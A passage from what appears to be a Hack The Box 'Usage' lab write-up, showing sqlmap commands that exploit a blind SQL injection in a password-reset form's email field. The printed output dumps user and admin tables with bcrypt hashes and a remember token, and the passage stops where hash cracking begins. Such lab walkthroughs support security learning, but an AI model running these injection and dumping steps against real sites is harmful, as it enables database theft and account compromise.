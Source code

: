 ```bash
sqlmap -r ~/Documents/htb/usage/reset_password.req -p email --dbms=mysql --answers="follow=Y" --technique=B -D usage_blog -T users --dump --fresh-queries
```

**Results:**

```
Database: usage_blog
Table: users
[2 entries]
+----+---------------+--------+--------------------------------------------------------------+---------------------+---------------------+----------------+-------------------+
| id | email         | name   | password                                                     | created_at          | updated_at          | remember_token | email_verified_at |
+----+---------------+--------+--------------------------------------------------------------+---------------------+---------------------+----------------+-------------------+
| 1  | raj@raj.com   | raj    | $2y$10$7ALmTTEYfRVd8Rnyep/ck.bSFKfXfsltPLkyQqSp/TT7X1wApJt4. | 2023-08-17 03:16:02 | 2023-08-17 03:16:02 | NULL           | NULL              |
| 2  | raj@usage.htb | raj    | $2y$10$rbNCGxpWp1HSpO1gQX4uPO.pDg1nszoI/UhwHvfHDdfdfo9VmDJsa | 2023-08-22 08:55:16 | 2023-08-22 08:55:16 | NULL           | NULL              |
+----+---------------+--------+--------------------------------------------------------------+---------------------+---------------------+----------------+-------------------+
```

Dumped `admin_users` table:

```bash
sqlmap -r ~/Documents/htb/usage/reset_password.req -p email --dbms=mysql --answers="follow=Y" --technique=B -D usage_blog -T admin_users --dump --fresh-queries
```

**Results:**

```
Database: usage_blog
Table: admin_users
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
```

Cracked the bcrypt hashes using Hashcat:
